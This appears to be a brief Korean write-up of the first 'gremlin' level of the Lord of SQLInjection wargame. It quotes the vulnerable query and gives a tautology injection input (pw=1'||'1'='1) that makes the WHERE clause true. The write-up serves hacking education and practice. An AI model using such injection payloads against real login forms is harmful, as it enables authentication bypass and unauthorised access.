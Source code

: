 Lord of SQLInjection 
gremlin 문제 [1단계]
id 와 pw 의 값으로 둘 다 참을 넣어주면 
if($result['id']) solve("gremlin"); 이 실행 되어
문제가 풀리게 된다
쿼리문 : "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
id=1&pw=1'||'1'='1 로 입력하면
쿼리문에 where id='1' and pw='1'or'1'='1'
이 되어 문제가 풀린다.